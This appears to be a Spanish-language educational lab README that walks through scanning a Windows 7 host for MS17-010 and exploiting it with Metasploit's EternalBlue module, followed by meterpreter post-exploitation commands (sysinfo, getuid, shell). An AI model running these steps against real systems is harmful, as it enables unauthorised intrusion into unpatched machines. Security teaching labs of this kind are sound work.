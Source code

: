 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```

**Exploiting**
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
**Post Exploitation**
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/

